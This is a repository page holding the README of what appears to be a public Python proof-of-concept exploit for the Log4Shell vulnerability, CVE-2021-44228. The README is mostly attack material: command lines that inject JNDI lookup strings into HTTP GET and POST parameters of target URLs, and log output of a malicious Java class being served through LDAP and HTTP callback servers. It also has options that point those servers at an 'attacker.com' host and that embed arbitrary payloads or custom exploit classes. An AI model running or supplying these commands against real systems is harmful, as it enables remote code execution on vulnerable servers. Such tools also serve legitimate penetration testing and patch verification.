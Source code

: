 # python-log4rce

An All-In-One Pure Python PoC for CVE-2021-44228

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/alexandre-lavoie](https://github.com/alexandre-lavoie) |
| Url      | [https://github.com/alexandre-lavoie/python-log4rce](https://github.com/alexandre-lavoie/python-log4rce)                                               |
| Stars    | 178                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cli* cve-2021-44228* log4j* python* rce

</details>

## Readme

# Python Log4RCE

An all-in-one pure Python3 PoC for [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228).

## Sample

```bash
> python3 log4rce.py --target "linux" --payload "PAYLOAD" http -X POST --url "http://localhost:8080/" --data "address=###"
```

```
INFO:HTTP:Running on local port 1337
INFO:HTTP:Remote target is http://127.0.0.1:1337/LinuxExploit.class
INFO:LDAP:Running on local port 1387
INFO:Log4J:Sending payload to http://localhost:8080/
INFO:LDAP:Query from ('127.0.0.1', 42554)
INFO:HTTP:Request from ('127.0.0.1', 55328) to /LinuxExploit.class
INFO:Log4J:Done!
```

## Usage

This is a CLI tool. All options can be found in the help menu:

```bash
python3 log4rce.py --help
```

The list is pretty extensive, therefore the following will give you a summary of the functionality.

### Attack Modes

The tool allows you to use a few attack modes. These attacks are extensions of the `Log4RCE` class.

#### HTTP

You can perform an automated HTTP request attack on a target URL.

You can perform a GET request as follows:

```bash
python3 log4rce.py http --url "http://www.vuln.com:1234/?vuln_param=###&param=123" --headers="P1=123&P2=123"
```

You can perform a POST request as follows:

```bash
python3 log4rce.py http -X POST --url "http://www.vuln.com:1234/" --data "vuln_param=###&param=123" --headers="P1=123&P2=123"
```

The previous will inject the JNDI tag into `###`.

#### Manual

If you cannot use any of the previous, use this mode to dump the JDNI tag:

```bash
python3 log4rce.py manual
```

### Network Settings

The tool allows extensive customization for most network configuration. All the internal servers can be modified to point to different locations according the the remote settings.

#### HTTP Server

You can configure the HTTP server using the following parameters:

```bash
python3 log4rce.py --http_port 1234 --http_rport 12345 --http_host "attacker.com"
```

```
http_port: The local port to run the server on.
http_rport: The port that a remote machine accesses.
http_host: The host name/IP a remote machine accesses. 
```

#### LDAP Server

You can configure the LDAP server using the following parameters:

```bash
python3 log4rce.py --ldap_port 1234 --ldap_rport 12345 --ldap_host "attacker.com"
```

```
ldap_port: The local port to run the server on.
ldap_rport: The port that a remote machine accesses.
ldap_host: The host name/IP a remote machine accesses. 
```

### Customization

The tool allows can handle some customization. The following lists some functionality you may be interested in.

### Injecting Payload

You can inject a payload into the Java class using:

```bash
python3 log4rce.py --payload "PAYLOAD"
```

The payload will be injected into `"###"` strings.

### Custom Java Payload

You can build your own Java class using the following. 

```bash
javac -source 1.7 -target 1.7 /path/to/Exploit.java
```

The resulting `.class` can be run using:

```bash
python3 log4rce.py --java_class "/path/to/Exploit.class" ...
```

Note: You can add a string `"###"` to allow payload injection.



## Get the content

```
git clone https://github.com/alexandre-lavoie/python-log4rce
cd python-log4rce
```

{% embed url="https://github.com/alexandre-lavoie/python-log4rce" %}

<figure><img src="https://avatars.githubusercontent.com/u/36684879?v=4" alt=""><figcaption><p>alexandre-lavoie</p></figcaption></figure>
